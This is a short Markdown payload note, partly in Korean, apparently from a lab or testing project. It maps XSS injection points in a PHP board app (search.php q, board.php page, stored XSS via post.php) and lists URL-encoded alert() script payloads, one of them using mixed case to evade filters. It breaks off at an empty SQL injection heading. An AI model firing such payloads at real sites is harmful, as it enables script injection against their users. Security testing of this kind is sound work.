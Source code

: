 # Payloads

## XSS

### Attack surfaces

- 게시글 검색 `search.php`의 `q` 파라미터

- 게시판 선택 시 `board.php`의 `page` 파라미터

- 글 생성 및 댓글 생성 `post.php` | `stored xss` 

### Payloads

<!-- 검색하는 곳; 숫자 및 문자열 삽입-->
`/search.php?q=<script>alert%287%29<%2Fscript>`

`/search.php?q=<script>alert%28%27test%27%29<%2Fscript>`

<!-- 글 생성 및 출력되는 곳-->
<!-- 댓글 생성 및 출력되는 곳-->
`GET /post.php`

`/board.php?page=2<ScRiPt>alert(%27page%27)</sCripT>`


## SQL Injection